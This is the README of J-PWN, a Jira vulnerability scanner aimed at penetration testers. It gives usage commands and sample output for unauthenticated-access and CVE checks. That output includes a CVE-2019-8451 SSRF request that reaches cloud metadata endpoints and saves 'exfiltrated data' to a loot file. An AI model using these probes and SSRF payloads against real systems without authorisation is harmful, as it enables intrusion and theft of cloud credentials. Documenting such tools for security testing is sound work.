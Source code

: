 # J-PWN
Jira Vulnerability Enumeration 
```
             ██╗      ██████╗ ██╗    ██╗███╗   ██╗
             ██║      ██╔══██╗██║    ██║████╗  ██║
             ██║█████╗██████╔╝██║ █╗ ██║██╔██╗ ██║
        ██   ██║╚════╝██╔═══╝ ██║███╗██║██║╚██╗██║
        ╚█████╔╝      ██║     ╚███╔███╔╝██║ ╚████║
         ╚════╝       ╚═╝      ╚══╝╚══╝ ╚═╝  ╚═══╝
         ** Hack the Planet ** [carnal0wnage]
```


## Wiki
There is an extensive wiki at [https://github.com/carnal0wnage/J-PWN/wiki](https://github.com/carnal0wnage/J-PWN/wiki)



## Quickstart 
### Install
```
python3  -m venv j-pwn
source j-pwn/bin/activate
pip3 install -r requirements
```
### Running J-PWN
`python3 j-pwn.py --single http://5.6.7.8:8080`

`python3 j-pwn.py --single https://1.2.3.4 -p /jira/` (jira path added)

`python3 j-pwn.py --list ../jira-hosts.txt`

`python3 j-pwn.py --single http://1.2.3.4:8080 --module check_open_jira_signup` (run a single module against a host)

### Example Data

Returns JIRA server version if JIRA is identified

```
+ JIRA is running on: https://jira1 

JIRA Server Information:
  Base URL        : https://jira1/jira
  Version         : 7.1.9
  Deployment Type : Server
  Build Number    : 71013
  Build Date      : 2016-06-27T00:00:00.000-0400
  Server Title    : JIRA

+ JIRA is running on: https://jira2

JIRA Server Information:
  Base URL        : https://jira2/jira
  Version         : 8.8.1
  Deployment Type : Server
  Build Number    : 808001
  Build Date      : 2020-04-22T00:00:00.000-0400
  Server Title    : Systems JIRA
```

### List the data if a JIRA server is vulnerable

ex: Unauthenticated Access to JIRA Admin Projects Detected
```
+ Unauthenticated Access to JIRA Admin Projects Detected
  URL: https://jira3/jira/rest/menu/latest/admin

  Admin Projects Details:
    - Key: admin
      Link: https://jira3/jira/secure/project/ViewProjects.jspa
      Label: JIRA administration
      Tooltip: 
      Local: True
      Self: True
      Application Type: jira
```
ex: Unauthenticated Access to JIRA Dashboards
```
+ Unauthenticated Access to JIRA Dashboards Detected
  URL: https://jira4/jira/rest/api/2/dashboard?maxResults=100
  Start At: 0
  Max Results: 100
  Total Dashboards: 1

  Dashboard Details:
    - ID: 10000
      Name: System Dashboard
      API URL: https://jira4/jira/rest/api/2/dashboard/10000
      View URL: https://jira4/jira/secure/Dashboard.jspa?selectPageId=10000
```
ex: Unauthenticated Access to JIRA Project Categories
```
+ Unauthenticated Access to JIRA Project Categories Detected
++ Manually check these for Unauthenticated Access ++
  URL: https://jira5/jira/rest/api/2/projectCategory?maxResults=1000

  Project Categories Details:
    - ID: 10003
      Name: Delivered
      Description: Project Delivered 
      API URL: https://jira5/jira/rest/api/2/projectCategory/10003
    - ID: 10400
      Name: Development
      Description: Development
      API URL: https://jira5/jira/rest/api/2/projectCategory/10400
    - ID: 10201
      Name: Internal
      Description: 
      API URL: https://jira5/jira/rest/api/2/projectCategory/10201
```

ex: CVE-2019-3403
```
+ CVE-2019-3403 Detected
  URL: https://jira3/jira/rest/api/2/user/picker?query=admin
  Total Users Found: 0
  Header: Showing 0 of 0 matching users
  User Details: No users listed.
```
ex: CVE-2019-8449
```
+ CVE-2019-8449 Detected
  URL: https://jira3/jira/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
  Total Users Found: 0
  User Header: Showing 0 of 0 matching users
  User Details: No users listed.
  Total Groups Found: 0
  Group Header: Showing 0 of 0 matching groups
  Group Details: No groups listed.
```

ex: CVE-2019-8442
```
- Checking URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
- HTTP Status Code: 200
+ CVE-2019-8442 Detected: Information Disclosure vulnerability found!
  URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml

- Checking URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
- HTTP Status Code: 200
+ CVE-2019-8442 Detected: Information Disclosure vulnerability found!
  URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
```

ex: CVE-2019-8451
```
INFO: Checking for CVE-2019-8451 (SSRF)
[Testing URL]: http://JIRASERVER:8080/plugins/servlet/gadgets/makeRequest?url=http://JIRASERVER:8080@example.com
[!!] [SSRF] Vulnerable to CVE-2019-8451 (SSRF): http://JIRASERVER/plugins/servlet/gadgets/makeRequest?url=http://JIRASERVER:8080@example.com
	Checking AWS Metadata
	----> AWS Metadata Not Found HTTP:500 
	----> HTTP Code: 200
throw 1; < don't be evil' >{"http://JIRASERVER:8080@169.254.169.254/latest/meta-data/":{"rc":500,"headers":{},"body":""}}
	Checking Alibaba Metadata
	----> Alibaba Metadata FOUND: http://JIRASERVER:8080/plugins/servlet/gadgets/makeRequest?url=http://JIRASERVER:8080@100.100.100.200/latest/meta-data/
<SNIP>

Exfiltrated data written to: loot/CVE-2019-8451_JIRASERVER:8080.txt
```
